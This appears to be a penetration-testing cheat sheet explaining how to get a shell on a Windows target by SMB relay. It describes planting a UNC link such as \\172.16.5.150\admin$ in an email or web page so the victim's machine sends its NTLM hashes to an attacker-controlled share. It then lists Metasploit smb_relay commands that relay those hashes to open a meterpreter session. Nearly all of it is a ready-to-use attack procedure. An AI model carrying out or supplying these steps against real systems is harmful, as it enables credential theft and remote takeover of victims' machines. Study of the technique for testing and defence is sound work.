

Get a Shell: redirect to Attacker's SMB share using UNC path
Similar to
Capture the Hahes: redirect to Attacker's SMB share using UNC path but here we are are launching directly a Shell on the target machine
Force the client (target) to start a connection to us (fake server)
With this approach, the attacker might even force the client to use a weaker and more easily cracked password hash mechanism(LANMAN Challenge/Response or NTLMv1).
example: 1. Create a fake Server
2. To force an SMB authentication is possible to embed a UNC path \\SERVER\SHARE (that can be written also as file://[AttackerIP]/[AttackerShare] in an email or web page
3. When the victim click on the link, the victim's machine will try to mount a share on the attacker's machine, performing Windows authentication with it.
4. Now we should have received a SMB session from the victim. This SMB session started when the user clicked our malicious link \\172.16.5.150\admin$ which carries the credentials (NTLM hashes) that were in use by the victim. The hashes obtained is are used by the smb-relay exploit in order to launch the payload
and get a meterpreter shell in our victim’s system.
How:
msf> use exploit/windows/smb/smb_relay
msf> set SRVHOST <attacker_interface_ip>
msf> set LHOST <attacker_interface_ip>
When the target will click on \\172.16.5.150\admin$ we should receive the hashes and exploit the target system
A lot of authentications can occur from the target but the sessions is been established(CTRL-C to exit from the exploit)
msf> sessions
msf> sessions [id]
Now that we have get the meterpreter shell we can close the smb relay job
msf> jobs
msf> jobs -k [id]